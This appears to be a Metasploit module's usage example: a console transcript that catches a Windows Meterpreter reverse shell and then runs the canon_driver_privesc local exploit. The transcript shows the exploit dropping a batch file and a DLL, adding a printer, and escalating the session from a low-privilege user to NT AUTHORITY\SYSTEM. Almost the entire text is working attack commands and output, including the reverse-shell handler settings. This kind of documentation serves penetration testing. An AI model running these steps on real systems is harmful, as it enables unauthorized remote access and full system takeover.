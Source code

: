 ```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:49816) at 2021-08-05 11:14:25 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/canon_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/canon_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[*] Adding printer ePzTcgz...
[*] Sending stage (200262 bytes) to 10.0.0.7
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:49819) at 2021-08-05 11:15:31 -0400
[*] Deleting printer ePzTcgz

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > quit
[*] Shutting down Meterpreter...
```

